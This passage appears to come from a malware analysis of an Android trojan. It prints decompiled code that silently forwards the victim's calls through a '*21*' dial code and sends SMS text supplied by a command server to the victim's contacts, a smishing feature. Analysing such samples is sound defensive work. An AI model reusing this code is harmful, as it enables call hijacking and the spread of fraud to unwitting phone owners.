 ```cs
                s28 = jSONObject5.getString(jwozx0.a("ZTY="));  // n
            }
            catch(Exception unused_ex) {
                return;
            }

            try {
                Intent intent1 = new Intent("android.intent.action.CALL");
                intent1.addFlags(0x10000000);
                intent1.setData(Uri.fromParts("tel", "*21*" + s28 + "#", "#"));
                context1.startActivity(intent1);
                String s29 = "ForwardCALL: " + s28 + "[143523#]";
                i2.a("ForwardCall", s29);
                i2.f(context1, i2.a.ab, s29);
                return;
            }
            catch(Exception unused_ex) {
            }
```


## Smishing

The malware has the ability to send SMSs to any contact using the phone number of the victim. The SMS text is received from the C2 server then sent to another victim.

```cs
 public final void send_sms(Context context0, String s, String s1) {
        try {
            SmsManager smsManager0 = SmsManager.getDefault();
            ArrayList arrayList0 = smsManager0.divideMessage(s1);
            int v = 0;
            PendingIntent pendingIntent0 = PendingIntent.getBroadcast(context0, 0, new Intent("SMS_SENT"), 0);
            PendingIntent pendingIntent1 = PendingIntent.getBroadcast(context0, 0, new Intent("SMS_DELIVERED"), 0);
            ArrayList arrayList1 = new ArrayList();
            ArrayList arrayList2 = new ArrayList();
            while(v < arrayList0.size()) {
                arrayList2.add(pendingIntent1);
                arrayList1.add(pendingIntent0);
                ++v;
            }

            smsManager0.sendMultipartTextMessage(s, null, arrayList0, arrayList1, arrayList2);
            String s2 = "Output SMS:" + s + " text:" + s1 + "[143523#]";
            this.a("SMS", s2);
            this.f(context0, this.a.ab, s2);
            this.h(context0, this.sharedpref(context0, this.a.Q));
        }
        catch(Exception unused_ex) {
        }
    }
```
